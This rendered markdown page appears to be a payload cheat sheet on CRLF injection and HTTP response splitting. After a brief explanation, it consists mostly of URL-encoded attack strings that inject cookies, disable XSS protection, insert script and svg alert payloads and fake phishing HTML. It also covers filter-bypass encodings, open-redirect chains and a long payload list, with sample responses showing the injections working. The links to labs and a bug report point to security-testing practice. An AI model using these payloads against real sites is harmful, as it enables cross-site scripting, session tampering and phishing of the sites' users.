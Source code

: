 ## Carriage Return Line Feed (CRLF)

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

>  A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

**CRLF - Add a cookie**

Requested page

`http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue`

**HTTP Response**

```
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

**CRLF - Add a cookie - XSS Bypass**

Requested page

```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

**CRLF - Write HTML**

Requested page

```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

**CRLF - Filter Bypass**

Using UTF-8 encoding

```
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

```
    %E5%98%8A = %0A = \u560a
    %E5%98%8D = %0D = \u560d
    %E5%98%BE = %3E = \u563e (>)
    %E5%98%BC = %3C = \u563c (<)
```

Example report: https://vulners.com/hackerone/H1:192749
Complete the following Portswigger lab to practice 🤓 : https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection

## CRLF Injection || HTTP Response Splitting

`%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;`

**Header-based test, site root**

`%0d%0aheader:header`

`%0aheader:header`

`%0dheader:header`

`%23%0dheader:header`

`%3f%0dheader:header`

`/%250aheader:header`

`/%25250aheader:header`

`/%%0a0aheader:header`

`/%3f%0dheader:header`

`/%23%0dheader:header`

`/%25%30aheader:header`

`/%25%30%61header:header`

`/%u000aheader:header`

**CRLF chained with Open Redirect server misconfiguration**

Note: This sometimes works. (Discovered in some Yandex sites, was not exploitable from the root.)

`//www.google.com/%2f%2e%2e%0d%0aheader:header`

`/www.google.com/%2e%2e%2f%0d%0aheader:header`

`/google.com/%2F..%0d%0aheader:header`

**Twitter specific CRLF**

`%E5%98%8A%E5%98%8Dheader:header`

**CRLF Injection to XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```

**Response splitting on 302 Redirect, before Location header (Discovered in DoD)**

```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```

**Response splitting on 301 code, chained with Open Redirect to corrupt location header and to break 301.**

Note: xxx:1 was used for breaking open redirect destination (Location header). Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.

```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```

## CRLF Payload List

🔹 /%%0a0aSet-Cookie:crlf
🔹 /%0aSet-Cookie:crlf
🔹 /%0d%0aSet-Cookie:crlf
🔹 /%0dSet-Cookie:crlf
🔹 /%23%0aSet-Cookie:crlf
🔹 /%23%0d%0aSet-Cookie:crlf
🔹 /%23%0dSet-Cookie:crlf
🔹 /%25%30%61Set-Cookie:crlf
🔹 /%25%30aSet-Cookie:crlf
🔹 /%250aSet-Cookie:crlf
🔹 /%25250aSet-Cookie:crlf
🔹 /%2e%2e%2f%0d%0aSet-Cookie:crlf
🔹 /%2f%2e%2e%0d%0aSet-Cookie:crlf
🔹 /%2F..%0d%0aSet-Cookie:crlf
🔹 /%3f%0d%0aSet-Cookie:crlf
🔹 /%3f%0dSet-Cookie:crlf
🔹 /%u000aSet-Cookie:crlf
🔹 /%E5%98%8D%E5%98%8ASet-Cookie:crlf

Look at this amazing CRLF in Linkedin <a:PartyParrot:1050252232731414579> 

https://www.youtube.com/watch?v=J9EtNewroN4